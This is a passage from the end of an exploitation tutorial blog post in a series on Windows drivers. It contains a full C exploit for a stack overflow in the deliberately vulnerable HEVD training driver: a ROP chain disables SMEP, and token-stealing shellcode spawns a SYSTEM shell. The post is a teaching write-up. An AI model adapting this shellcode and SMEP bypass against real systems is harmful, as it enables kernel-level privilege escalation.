 *      r14: holds a pointer to the current IO_STACK_LOCATION
 *      r15: holds a pointer to the FILE_OBJECT associated with the driver
 * 
 *  All three registers are restored through the shellcode.
 * 
 *  This exploit uses the documented method of EnumDeviceDrivers to determine the 
 *  kernel base address.  It uses a ROP chain in ntkrnl.exe to disable SMEP.
 */ 


// Vulnerable IOCTL
#define HEVD_IOCTL_BUFFER_OVERFLOW \
    CTL_CODE( 0x22, 0x800, METHOD_NEITHER, FILE_ANY_ACCESS )

// Sizes for overflow
#define BUFFER_SIZE 2048
#define POINTER_SIZE 8

// SMEP Constants
#define SMEP_BIT 20
#define CR4_ORIG_VALUE 0x00000000001406f8
#define CR4_SMEP_DISABLED (CR4_ORIG_VALUE & ~(1 << SMEP_BIT))

// ROP Gadgets
// Windows 8.1 Kernel Version 9600 MP (1 procs) Free x64
#define POP_RCX     0x000378df6      // : pop rcx ; ret
#define MOV_CR4_RCX 0x00008655a      // : mov cr4, rcx ; ret

// Chain is 2 gadgets + 1 value to store in rcx + address of shellcode
#define CHAIN_SIZE 4 * POINTER_SIZE  


// https://github.com/stolenfootball/HEVDExploits/blob/main/BufferOverflowStack/Windows8x64/shellcode.asm
CHAR TokenStealingPayloadWin8[] =
{
	0x50, 0x53, 0x51, 0x65, 0x48, 0x8B, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00,
	0x48, 0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, 0x48, 0x89, 0xC3, 0x48, 0x8B,
	0x80, 0xE8, 0x02, 0x00, 0x00, 0x48, 0x2D, 0xE8, 0x02, 0x00, 0x00, 0x48,
	0x8B, 0x88, 0xE0, 0x02, 0x00, 0x00, 0x48, 0x83, 0xF9, 0x04, 0x75, 0xE6,
	0x48, 0x8B, 0x88, 0x48, 0x03, 0x00, 0x00, 0x80, 0xE1, 0xF0, 0x48, 0x89,
	0x8B, 0x48, 0x03, 0x00, 0x00, 0x41, 0xBC, 0x00, 0x00, 0x00, 0x00, 0x49,
	0x89, 0xEE, 0x49, 0x81, 0xC6, 0xD0, 0x00, 0x00, 0x00, 0x4D, 0x89, 0xF7,
	0x4D, 0x8B, 0x7F, 0x30, 0x48, 0x83, 0xC4, 0x10, 0x59, 0x5B, 0x58, 0xC3
};


INT TriggerExploit(HANDLE hDevice);
UINT64 GetKernelBaseAddress();

INT main() 
{
    HANDLE hDevice;
    PCWSTR lpDeviceName = L"\\\\.\\HackSysExtremeVulnerableDriver";

    printf("[*] Author: @stolenfootball\n");
    printf("[*] Website: https://stolenfootball.github.io\n\n");

    hDevice = CreateFileW(
        lpDeviceName,
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );
    if (hDevice == INVALID_HANDLE_VALUE) {
        printf("[-] Failed to open handle to driver: %lu\n", GetLastError());
        return -1;
    } 

    printf("[+] Device opened successfully!\n");

    if (TriggerExploit(hDevice) >= 0) {
        printf("[+] Spawning shell with SYSTEM privliges...\n");
        system("cmd");
    } else {
        printf("[-] Exploit failed: %lu\n", GetLastError());
    }

    printf("[+] Cleaning up and closing handle...\n");
    CloseHandle(hDevice);

    return 0;
}

INT TriggerExploit(HANDLE hDevice) 
{
    UINT64 *lpInBuffer;
    LPVOID  lpShellcode;
    UINT64  kernelBase;
    SIZE_T  inBufferSize;
    SIZE_T  returnAddrIndex;
    DWORD   bytesReturned;
    SIZE_T  shellcodeSize = sizeof(TokenStealingPayloadWin8);


    // Allocate space for the shellcode
    printf("[+] Allocating executable memory for shellcode\n");

    if (!(lpShellcode = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE))) {
        printf("[-] Failed to allocate memory for shellcode: %lu\n", GetLastError());
        return -1;
    }

    // Copy shellcode into executable user space memory
    RtlCopyMemory(lpShellcode, TokenStealingPayloadWin8, shellcodeSize);

    printf("[+] Shellcode copied into executable memory\n");


    // Allocate a buffer of the correct size for the overflow.  Need to overflow 
    // the buffer, three callee saved registers, and enough space for the ROP chain.
    inBufferSize = BUFFER_SIZE + (3 * POINTER_SIZE) + CHAIN_SIZE;
    
    // Alocate the user buffer to be sent to the driver
    if (!(lpInBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, inBufferSize))) {
        printf("[-] Failed to allocate memory for buffer: %lu\n", GetLastError());
        return -1;
    }
    printf("[+] Created buffer of size: %zu\n", inBufferSize);
    

    // Set buffer to be full of 'A's
    RtlFillMemory(lpInBuffer, inBufferSize, 'A');


    // Create the ROP Chain
    if (!(kernelBase = GetKernelBaseAddress())) {
        printf("[-] Failed to calculate kernel base\n");
        return -1;
    }

    // Return address is at the buffer size plus the size of the three callee saved registers to 
    // overwrite plus the size of the return address.  Since the array is of size UINT64, we need
    // to divide by 8 to get the correct index into the array from the raw size in bytes, then 
    // subtract one to account for zero indexing.
    returnAddrIndex = ((BUFFER_SIZE + (3 * POINTER_SIZE) + POINTER_SIZE) / POINTER_SIZE) - 1;

    lpInBuffer[returnAddrIndex++] = POP_RCX + kernelBase;
    lpInBuffer[returnAddrIndex++] = CR4_SMEP_DISABLED;
    lpInBuffer[returnAddrIndex++] = MOV_CR4_RCX + kernelBase;
    lpInBuffer[returnAddrIndex++] = (UINT64)lpShellcode;


    printf("[+] Sending buffer with IOCTL: 0x%x\n", HEVD_IOCTL_BUFFER_OVERFLOW);
        
    BOOL result = DeviceIoControl(
        hDevice,
        HEVD_IOCTL_BUFFER_OVERFLOW,
        lpInBuffer,
        inBufferSize,
        NULL,
        0,
        &bytesReturned,
        NULL
    );
    if (!result) {
        printf("[-] Failed to send IOCTL to HEVD Driver: %lu\n", GetLastError());
        return -1;
    }

    printf("[+] IOCTL sent successfully to HEVD driver!\n");

    printf("[+] Freeing input buffer...\n");
    HeapFree(GetProcessHeap(), 0, lpInBuffer);

    return 0;
}

UINT64 GetKernelBaseAddress() 
{
    ULONG_PTR  pKernelBaseAddress = 0;
    LPVOID    *lpImageBase = NULL;
    DWORD      dwBytesNeeded = 0;

    if (!EnumDeviceDrivers(NULL, 0, &dwBytesNeeded)) {
        printf("[-] Failed to retrieve size needed for device driver entries\n");
        return -1;
    }

    if (!(lpImageBase = (LPVOID *)HeapAlloc(GetProcessHeap(), 0, dwBytesNeeded))) {
        printf("[-] Failed to allocate space for lpImageBase\n");
        if (lpImageBase) 
            HeapFree(GetProcessHeap(), 0, lpImageBase);
        return -1;
    }

    if (!EnumDeviceDrivers(lpImageBase, dwBytesNeeded, &dwBytesNeeded)) {
        printf("[-] EnumDeviceDrivers failed: %d", GetLastError());
        if (lpImageBase) 
             HeapFree(GetProcessHeap(), 0, lpImageBase);
        return -1;
    }

    pKernelBaseAddress = ((ULONG_PTR *)lpImageBase)[0];
    HeapFree(GetProcessHeap(), 0, lpImageBase);

    printf("[+] Kernel Base Address calculated: %llx\n", pKernelBaseAddress);

    return (UINT64)pKernelBaseAddress;
}
```

As always, this can also be found on [Github](https://github.com/stolenfootball/HEVDExploits/blob/main/BufferOverflowStack/Windows8x64/exploit.c).

## Final thoughts
That was a long post, but hopefully some people stuck with me for it.  The next post will be about bypassing VBS, the newest mitigation for local kernel exploitation.  Once you can do that, you can start writing exploits for brand new Windows 11 systems.

I'm starting a new job soon so I'm not sure when I'm going to have a chance to post next.  I highly recommend reading through some of the writeups linked on the [HEVD Github](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver) if you want to continue in the meantime.

Thanks for sticking with me so far, hope to see you again in the future!

## More reading
- [HEVD External Blog Posts](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver?tab=readme-ov-file#external-blog-posts)

## Series Index
- [Part 1 - Overview](https://stolenfootball.github.io/posts/series/windows_drivers/p1_overview/index.html)
- [Part 2 - What's a Driver Anyways?](https://stolenfootball.github.io/posts/series/windows_drivers/p2_whats_a_driver/index.html)
- [Part 3 - The Minimum Viable Driver](https://stolenfootball.github.io/posts/series/windows_drivers/p3_minimum_viable_driver/index.html)
- [Part 4 - Interacting with the Driver](https://stolenfootball.github.io/posts/series/windows_drivers/p4_interacting_with_driver/)
- [Part 5 - Basic Driver Functionality](https://stolenfootball.github.io/posts/series/windows_drivers/p5_basic_driver_function/)
- [Part 6 - Debugging and Basic Rev](https://stolenfootball.github.io/posts/series/windows_drivers/p6_debugging_drivers/)
- [Part 7 - Buffer Overflow on Windows 7](https://stolenfootball.github.io/posts/series/windows_drivers/p7_buffer_overflow_win7/)
- [Part 8 - Bypassing SMEP](https://stolenfootball.github.io/posts/series/windows_drivers/p8_smep_bypass/)